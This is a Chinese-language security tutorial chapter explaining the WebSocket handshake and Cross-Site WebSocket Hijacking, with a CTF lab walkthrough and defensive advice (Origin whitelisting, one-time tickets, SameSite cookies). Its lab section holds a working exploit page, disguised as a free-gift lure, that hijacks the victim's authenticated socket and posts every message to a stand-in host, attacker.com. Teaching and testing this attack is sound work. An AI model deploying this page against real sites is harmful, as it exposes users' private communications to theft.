


# 🔌 WebSocket 协议底层握手机制与跨站劫持 (CSWSH) 攻防深度精解

> **学习指南**：在现代实时交互 Web 应用（在线聊天室、实时炒股面板、协作文档、网页游戏）中，WebSocket 已成为标配技术。
> 很多初学者知道 CSRF（跨站请求伪造），但当场景切换到 WebSocket 时，却往往不知道存在一个破坏力百倍于 CSRF 的漏洞——**跨站 WebSocket 劫持（Cross-Site WebSocket Hijacking，CSWSH）**！
> 普通 CSRF 攻击者“只能盲发指令，看不到响应”；而在 CSWSH 下，攻击者**不仅能冒充受害者发操作，还能实时双向监听受害者的所有私密数据推送**！

---


> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。

## 一、小白零基础扫盲：什么是 WebSocket？

### 1. 通俗比喻：HTTP 是“写信通信”，WebSocket 是“打电话连麦”

* **传统的 HTTP 协议（写信）**：
  * **单向请求-响应模式**：客户端（浏览器）必须主动向服务端写一封信（发 Request），服务端才能回一封信（返回 Response）。
  * 服务端**永远无法主动给客户端发消息**！如果一个在线聊天室用 HTTP，浏览器就必须每隔 1 秒偷偷发一次请求问：“有没有新消息？”（这叫轮询 Polling，极其浪费带宽和服务器算力）。
* **WebSocket 协议（打电话对讲机）**：
  * **全双工双向实时通信（Full-Duplex）**：
  * 浏览器与服务端一旦“接通电话”，底层的 TCP 连接就会一直保持畅通。
  * **双方随时随地可以同时互相说话**！服务端只要有新消息，可以在 1 毫秒内瞬间推送到客户端屏幕上！



---

### 2. WebSocket 升级握手（Handshake）报文逐行剖析

WebSocket 连接并不是一开始就存在的，它必须借助一个经过特殊构造的 **HTTP GET 请求** 开局完成“协议升级”。

#### 客户端发送的握手请求包：
```http
GET /chat HTTP/1.1
Host: secure-chat.ctf:8080
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
Origin: http://secure-chat.ctf:8080
Cookie: session=admin_secret_token_12345
```

#### 关键请求标头逐字解析表：
| 标头名称 | 作用与底层通信含义 |
| :--- | :--- |
| **`Upgrade: websocket`** | 明确告知服务器：“请将当前连接的协议从普通 HTTP 升级为 WebSocket！” |
| **`Connection: Upgrade`** | 声明本次连接旨在进行协议切换（升级） |
| **`Sec-WebSocket-Key`** | 客户端随机生成的 16 字节 Base64 编码字符串，用于防范普通缓存服务器的错误代理 |
| **`Sec-WebSocket-Version: 13`** | 声明遵循的 WebSocket RFC 6455 协议版本（目前通用为 13） |
| **`Origin`** | **核心防御命门！** 浏览器强制添加的标头，表明本次握手是由哪个源（域名/协议/端口）发起的页面代码触发的！ |
| **`Cookie`** | **致命自动携带！** 只要目标域名匹配，**浏览器会完全自动附加该域下的用户身份 Cookie！** |

#### 服务端的握手响应包：
```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
```
* **`101 Switching Protocols`**：状态码 101 代表服务端同意协议切换。
* 从这一刻起，双方彻底脱离 HTTP 纯文本解析，转为高效的二进制数据帧（Data Frames）链路！

---

## 二、跨站 WebSocket 劫持 (CSWSH) 深度剖析：为什么能破防？

### 1. 颠覆性认知：同源策略（SOP）对 WebSocket 握手完全失效！

很多开发者有一个极其危险的思维误区：“浏览器有同源策略（SOP），其他网站肯定不能随便连我的 WebSocket 吧？”
**答案是：大错特错！**

根据 W3C 与 IETF 标准规范：
1. **浏览器对 WebSocket 构造完全不限制跨域！**
   在恶意网站 `http://attacker.com` 的 JavaScript 脚本中，写 `new WebSocket("wss://bank.com/api")`，**浏览器完全放行，直接发起跨域握手请求！**
2. **凭据自动化携带机制**：
   浏览器向 `bank.com` 发送握手请求时，**会自动附带受害者在 `bank.com` 下的全部 Session Cookie**！
3. **唯一的防御责任落在了服务端对 `Origin` 标头的检验上！**
   如果服务端代码**没有严格校验 `Origin` 是不是来自自己的官方域名**，就会误认为这是受害者在官方网站上发起的正常连接，握手直接成功！



---

## 三、CSWSH vs 传统 CSRF：杀伤力降维打击对比

| 对比维度 | 传统 CSRF (跨站请求伪造) | CSWSH (跨站 WebSocket 劫持) |
| :--- | :--- | :--- |
| **通信机制** | 基于单向 HTTP POST / GET | **基于全双工长连接** |
| **数据窃取能力** | ❌ **无法读取响应**（受浏览器同源策略限制，攻击者只能盲发） | ✅ **100% 窃取全部实时回显**（攻击者直接持有 WebSocket 句柄，`onmessage` 实时捕获推送） |
| **操作持续性** | 单次发包单次触发 | **长连接持续交互**，只要网页不关闭，可不间断双向收发控制指令 |
| **利用门槛** | 接口需无 Anti-CSRF Token | 握手接口未严格比对 `Origin` |

---

## 四、CTF 实战靶场案例复现（私密聊天数据跨站窃取夺旗）

### 靶场情境：企业内网实时通信系统

* 目标网站：`http://chat.ctf:8080/`
* 系统特点：用户登录后，页面通过 `ws://chat.ctf:8080/ws/messages` 建立连接。服务端检测到连接后，会自动将当前用户的历史聊天记录（其中包含管理员发给自己的私密密码和 Flag）推送给客户端。
* 权限校验机制：握手时直接依赖 Cookie 中的 `session_id`。

### 1. 抓包审计：检查握手请求
在 Burp Suite 中拦截握手包，发现请求包含：
```http
GET /ws/messages HTTP/1.1
Host: chat.ctf:8080
Upgrade: websocket
Connection: Upgrade
Origin: http://chat.ctf:8080
Cookie: session_id=e7b4c901a...
```
* **安全测试**：手动将 `Origin` 修改为任意第三方网站（如 `Origin: http://attacker.com`），发包测试；
* **关键发现**：服务端依然响应了 `101 Switching Protocols`！**说明服务端完全没有校验 `Origin` 白名单！存在典型的 CSWSH 高危漏洞！**

---

### 2. 构造攻击利用页面（Exploit PoC）

攻击者在自己的公网服务器（`http://attacker.com/exploit.html`）上部署如下恶意页面：

```html
<!DOCTYPE html>
<html>
<head>
    <title>Win Free Gift!</title>
</head>
<body>
    <h1>Loading exciting contents...</h1>
    <script>
        // 1. 恶意跨站建立 WebSocket 连接到目标系统
        // 浏览器会自动携带受害者在 chat.ctf 下的有效 Cookie!
        const ws = new WebSocket("ws://chat.ctf:8080/ws/messages");

        ws.onopen = function() {
            console.log("[+] Hijacked WebSocket Connected successfully!");
            // 2. 连接就绪后，可主动发送指令要求获取机密数据
            ws.send(JSON.stringify({ "action": "fetch_history" }));
        };

        ws.onmessage = function(event) {
            // 3. 💥 关键利用点：实时捕获服务端推送回来的私密信息！
            console.log("[+] Intercepted Private Data: " + event.data);
            
            // 4. 将截获到的敏感数据通过图片信标或 fetch 回传给攻击者服务器
            fetch("http://attacker.com/leak", {
                method: "POST",
                body: event.data
            });
        };
    </script>
</body>
</html>
```

---

### 3. 攻击实施与夺旗过程

1. 攻击者将链接 `http://attacker.com/exploit.html` 发送给管理员（或靶场的仿真机器人点击审核）；
2. 管理员（已在后台登录）在浏览器中点击打开该钓鱼页面；
3. 钓鱼页面上的 JS 脚本立即向 `ws://chat.ctf:8080/ws/messages` 建立跨站连接；
4. 目标服务器验证了管理员的 Cookie，误认为是管理员本人在查看聊天记录，将全部私密对话全量推送给 `attacker.com` 的 WebSocket 句柄；
5. 攻击者在监听日志中成功截获数据：
   ```json
   {
     "from": "system",
     "content": "Secret note: flag{cr0ss_s1t3_w3bs0ck3t_h1j4ck1ng_m4st3r}"
   }
   ```
   未触发任何报警，平稳实现管理员私密通信全量监听与 Flag 捕获！

---

## 五、安全加固与防御最佳实践

1. **严格校验并锁定 `Origin` 白名单（核心金标准）**：
   在 WebSocket 握手阶段，服务端必须在代码层提取 `Origin` 标头，并与本站允许的合法域名严格比对，非白名单域名一律拒绝握手：
   ```python
   # ✅ Python WebSocket 服务端安全校验示例
   ALLOWED_ORIGINS = ["https://chat.ctf", "https://app.chat.ctf"]

   def on_handshake(request):
       origin = request.headers.get("Origin")
       if origin not in ALLOWED_ORIGINS:
           return 403, "Forbidden Origin" # 拒绝跨站升级
   ```
2. **引入一次性单次凭证（Ticket / Anti-CSRF Token）**：
   * 建立 WebSocket 前，客户端先向正规同源 HTTP 接口请求一个有效期仅 30 秒的一次性随机 Token（Ticket）；
   * 建立 WebSocket 握手时将其作为 URL 参数传入：`wss://target.com/ws?ticket=random_uuid`；
   * 即使第三方网站跨站发起了握手，由于攻击者受同源策略（SOP）限制无法预先拿到该 Ticket，连接直接失败！
3. **Cookie 配置 `SameSite=Strict` 或 `Lax`**：
   将承载登录状态的敏感 Cookie 标注为 `SameSite=Strict` 或 `SameSite=Lax`，阻止浏览器在跨站发起的握手请求中自动附加该 Cookie。

---

## 🔗 相关双向链接
- 上级模块：[[11-现代新型API与认证安全]]
- 前置接口：[[01-GraphQL基础架构、内省查询缺陷与批量注入实战]]
- 下一章节：[[03-OAuth 2.0与OIDC授权认证机制漏洞与Token劫持]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
